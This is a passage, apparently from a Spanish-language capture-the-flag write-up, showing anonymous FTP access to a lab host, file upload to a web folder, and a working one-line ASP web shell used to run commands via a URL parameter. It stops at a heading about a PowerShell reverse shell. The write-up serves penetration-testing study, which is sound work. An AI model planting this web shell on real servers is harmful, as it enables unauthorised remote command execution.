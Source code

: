 
## Vulnerability Assessment {-}

### Conneccion anonyma por FTP {-}

```bash
ftp 10.10.10.116
Name: anonymous
dir
ls -la
```

En otro terminal creamos un fichero de prueba 
```bash
 echo "EEEEE" > prueba.txt 
```
 y lo subimos por ftp.

```bash
put prueba.txt
```

Si miramos en la web en la direccion 
```bash
 /upload 
```
 podemos ver el fichero prueba.txt.

### Remote Code execution con fichero asp {-}

Buscamos una reverse shell con la pagina web [hackingdream](https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html)
y vemos el oneliner para la webshell asp.

```bash
vi s4vishell.asp

<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```

lo subimos con ftp

```bash
put s4vishell.asp
```

y si miramos por la web 
```bash
 http://10.10.10.116/upload/s4vishell.asp?cmd=whoami 
```
 y ya tenemos capacidad de remote code execution.

## Vuln exploit & Gaining Access {-}

### Conneccion con una shell typo powershell de nishang {-}
